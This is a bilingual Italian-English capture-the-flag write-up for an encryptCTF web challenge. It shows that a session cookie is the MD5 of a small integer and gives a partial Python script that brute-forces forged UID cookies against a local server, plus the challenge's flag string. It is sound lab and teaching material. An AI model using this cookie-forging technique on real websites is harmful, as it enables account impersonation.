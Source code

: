 #### Solution :

IT: Stessa situazione del secondo esercizio sezione 7, ma bisogna lavorarci su con Python. Guardando tra i cookies, ne troviamo 2:

ENG: Same situation as the second exercise section 7, but you have to work on it with Python. Looking through the cookies, we find 2 of them:

```
FLAG:"encryptCTF%7By0u_c4nt_U53_m3%7D"
UID:"f899139df5e1059396431415e770c6dd"
```

IT: -----------------------------------------------------------------------------------------------------

La flag è incompleta

Se proviamo a decryptare tramite MD5 l'UID, abbiamo come risultato 100.

Siccome non rimane molto altro da poter fare, bisogna pensare ad un modo per eseguire bruteforce provando diversi numeri/UID in MD5 (siccome MD5(f899139df5e1059396431415e770c6dd) == 100)

ENG: ----------------------------------------------------------------------------------------------------

The flag is incomplete

If we try to decrypt via MD5 the UID, we get 100 as the result.

Since there is not much else left to do, we have to think of a way to bruteforce by trying different numbers/UIDs in MD5 (since MD5(f899139df5e1059396431415e770c6dd) == 100)

Python script (cookie_bruteforce)
```Python
import hashlib
import codecs
import numpy as np
import requests

#IP
ip = "127.0.0.1"
port= "8080"

#we first check that our MD5 works by comparing Md5(100) with
#the one in the webpage
control = "f899139df5e1059396431415e770c6dd"
tester = 100
tester_b = str.encode(str(tester))
tester_md5 = hashlib.md5(tester_b).hexdigest()
print(f"tester={tester_md5 == control}")

#try a request to the web application
cookies = {"UID":tester_md5}
r = requests.post(f"http://{ip}:{port}", cookies = cookies)
def_flag = r.cookies["FLAG"] #default flag

print(f"default flag\t{def_flag}")

#brute force cycle
for i in range(100):
    """ compute the MD5 """
    #convert the number to a byte
    byte_i = str.encode(str(i))

    #obtain the MD5
    md5_i = hashlib.md5(byte_i).hexdigest()

    #     """ Send request to the web application """
```
